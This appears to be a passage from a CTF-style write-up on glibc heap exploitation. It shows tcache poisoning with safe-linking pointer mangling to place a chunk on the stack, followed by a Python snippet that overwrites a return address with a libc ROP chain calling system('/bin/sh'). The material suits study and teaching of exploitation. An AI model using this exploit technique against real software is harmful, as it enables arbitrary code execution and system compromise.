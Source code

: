 
# posion tcache again to allocate chunk on stack + rop with libc gadgets to system("/bin/sh")

Since we have shown already how poisoning tcache works and i presume all of peaople reading this have done ROP before I will make this brief.

Again we start with getting 3 chunks into tcache in this case Pad 1,2,3
where again 2,3 are irrelevant just the 1 matters. We poison tcache now with a stack address (return address of create function since that will be the last function we call before ROP-ing)

We generate a rop chain as usual pop_rdi_ret -> bin_sh -> system using gadgets from libc since we haven't leaked PIE (At this point I would like to share with you how dead ROP is at least when it comes to csu that got removed in libc 35 I think)



``` py 
print("Trying to fork /bin/sh")
kjer_smo = leak + 0x3a0

kje_bi_radi_bli = leak_stack -0x158
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)



delete(padd(b'\x12'))
delete(padd(b'\x11'))
delete(padd(b'\x10'))

create(padd(int.to_bytes(37,1,'little')), '74',b'U'*0x28 + b'\x00'* 8 + p64(0x71)  +p64(ftakni_ga_not) )

pop_rdi_ret = libc_base +0x000000000002daa2
ret = libc_base + 0x000000000002d446
system = libc_base + 0x00000000004e320
bin_sh = libc_base + 0x1b4689


rop = p64(pop_rdi_ret)
rop += p64(bin_sh)
rop += p64(system)


create(padd(int.to_bytes(38,1,'little')), '96',b"N" *8 )
create(padd(int.to_bytes(40,1,'little')), '96',rop )
print("SUCCESS!")
print("Enjoy your shell :)")
```

we overwrite the return address with our rop and spawn a shell.

# PROFIT!
